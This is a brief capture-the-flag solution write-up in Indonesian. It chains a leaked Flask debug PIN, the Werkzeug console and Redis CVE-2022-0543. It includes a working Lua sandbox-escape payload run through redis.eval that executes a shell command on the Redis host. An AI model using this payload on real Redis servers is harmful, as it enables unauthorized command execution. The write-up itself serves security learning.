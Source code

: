 # How to solve
Pertama kita perlu mendapatkan flask pin dari miss configration pada cache.

Setelah itu kita pakai pin itu untuk ke endpoint console.

Pada endpoint console kita perlu mendapatkan akses redis menggunakan vulnerability CVE-2022-0543. Kita bisa mengecek versi redis ini menggunakan command `info server`
```py
import redis;
r = redis.Redis("redis", 6379);
print(r.execute_command("info server").decode());
```

Untuk mendapatkan remote address kita menggunakan payload dari CVE-2022-0543 dari poc [ini](https://github.com/vulhub/vulhub/tree/master/redis/CVE-2022-0543).

```py
import redis;
r = redis.Redis("redis", 6379);
print(r.eval("""local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("cat /flag.txt", "r"); local res = f:read("*a"); f:close(); return res""",0));
```